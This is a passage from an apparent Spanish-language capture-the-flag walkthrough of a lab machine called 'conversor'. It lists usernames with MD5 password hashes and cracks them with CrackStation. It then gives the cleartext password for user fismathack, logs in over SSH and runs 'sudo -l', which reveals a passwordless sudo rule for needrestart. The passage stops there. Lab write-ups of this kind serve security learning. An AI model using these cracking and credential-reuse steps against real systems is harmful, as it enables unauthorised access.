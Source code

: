 ```shell 
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|dummy|275876e34cf609db118f3d84b799a790
6|pepe|926e27eecdbc7a18858b3798ba99bddd
7|test|098f6bcd4621d373cade4e832627b4f6
```

Utilizando crackSTation comprobamos si encontramos la contraseña en texto claro de este cifrado de contrasñas en MD5

Como se puede apreciar encontramos la contraseña de todos los ususarios 
![alt text](Imagenes/Conversion3.png)

## Intrusion en ssh 

Como podemos ver el usuario que más llama la atencion es el primero que precisamente es el único ususario que aparece en el sistema por lo tanto para mayor comodidad vamos a entrar por ssh

```shell 
ssh fismathack@10.10.11.98 | Keepmesafeandwarm
```
Finalmente accedemos por ssh y descubrimos la primera flag.


## Escalada de privilegios 

Para la escalada compruebo primero que permisos tengo y si puedo ejecutar algo con `sudo` de la siguiente manera:

```shell
fismathack@conversor:/home$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```
